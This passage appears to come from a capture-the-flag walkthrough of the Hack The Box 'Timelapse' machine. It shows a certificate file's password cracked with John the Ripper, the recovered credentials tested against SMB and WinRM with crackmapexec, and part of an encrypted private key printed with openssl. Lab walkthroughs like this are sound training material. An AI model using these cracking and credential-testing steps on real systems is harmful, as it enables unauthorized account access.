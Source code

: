 pfx2john legacyy_dev_auth.pfx
vi legacyy.hash # Copy hash from last command here
john legacyy_dev_auth.pfx --wordlist=/usr/share/wordlists/rockyou.txt

---OUTPUT---
thuglegacy       (legacyy_dev_auth.pfx)
```
- We check if credentials work with crackmapexec
	```bash
crackmapexec smb 10.10.11.152 -u 'legacyy_dev' -p 'thuglegacy'

---OUTPUT---
SMB         10.10.11.152    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:timelapse.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.152    445    DC01             [+] timelapse.htb\legacyy_dev:thuglegacy 
```
	- We get a hit. We try with winrm too (FAILS):
		```bash
crackmapexec winrm 10.10.11.152 -u 'legacyy_dev' -p 'thuglegacy'

---OUTPUT-FAILED---
SMB         10.10.11.152    5986   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:timelapse.htb)
HTTP        10.10.11.152    5986   DC01             [*] https://10.10.11.152:5986/wsman
WINRM       10.10.11.152    5986   DC01             [-] timelapse.htb\legacyy_dev:thuglegacy "HTTPConnectionPool(host='10.10.11.152', port=5985): Max retries exceeded with url: /wsman (Caused by ConnectTimeoutError(<urllib3.connection.HTTPConnection object at 0x7f7438388c20>, 'Connection to 10.10.11.152 timed out. (connect timeout=30)'))"
```
- I try to open the pfx file again with the password:
	```bash
openssl pkcs12 -in legacyy_dev_auth.pfx -info
Enter Import Password:


---OUTPUT---
Bag Attributes
    Microsoft Local Key set: <No Values>
    localKeyID: 01 00 00 00 
    friendlyName: te-4a534157-c8f1-4724-8db6-ed12f25c2a9b
    Microsoft CSP Name: Microsoft Software Key Storage Provider
Key Attributes
    X509v3 Key Usage: 90 

---PWD-PROMPT---
Enter PEM pass phrase:
Verifying - Enter PEM pass phrase:

---OUTPUT---
-----BEGIN ENCRYPTED PRIVATE KEY-----
MIIFNTBfBgkqhkiG9w0BBQ0wUjAxBgkqhkiG9w0BBQwwJAQQni88wTGzuhOCrZOZ
Qb7OjgICCAAwDAYIKoZIhvcNAgkFADAdBglghkgBZQMEASoEEKsVh4i9fAd3LjRb
m7TrZ6UEggTQHNzgo47jdiaHlFfVFYQclEVaqnY4r6NTOhO5wR0rpa4Zcha6QmRR
svS/h/jpM2kGpMdDPO0szR4U8aZqMTU7D/RWknHbvuRj7uJuQ+G6AjX21MQXTkmL
V2UV4O3rES7eTEq+HFP6oihYGGJAizIMTyYXvNOvMa7IvYtwFhNKfBGQmizB78hB
Xv+abF7uo3PFhCQw+SnLjJrFSRlo/hVLRiQClPZog0msNHJlxM8AS1+awYAfE8OE
J7IdG6exncAiq+9S9W1BAV1Fdj5o15iOZ+tUwvZ+koB+ykHP/R/9pvJeztvo2qa5
YKX/M8strMpR+Ah15tB+Yf8baw3qtFXFnnv674KOKgT0GkPzMpTc5OkXIKyUHRtY
nZkL9udpvF9LtBGqnjwjkvRRN4b+pCGGkZ3gy4Tzudghu0E4cfVMYNUnk05AaXOo
deGqrqLOjpu48/gLYrgubmW6VTf5swdBi2vJ3t5R9Hyhac6OinPzZn4mng8FUDG2
DD+1YAo/qXehtsOb9JPc055GNThe5xOGjcxZdNhUcK1MzMXda0JSnJFFX5V52+H8
2iBx7JPxQ/l1Ex012WX3Y3fpfNmeAoF0KLNt64xsHDCAygqrQnr6+SviE9GiENod
ec55lQ5Az7yTURm31GkcsixjYLgZrrwJyFhLzJ4lVU/7ryXqBgBbhFh1I4j4veDh
KSFbaNinPkTLhcs9lj2WKZDzbjy1rOnmlFcbdTH6XvdN6SjYH/vNz7OqnJMPjC60
A6LmdKwaDlc5fY1ydICoIC0QQMeMeaPfyB2XWMBNp8eZqtFPNlySsGiVz2301jOf
```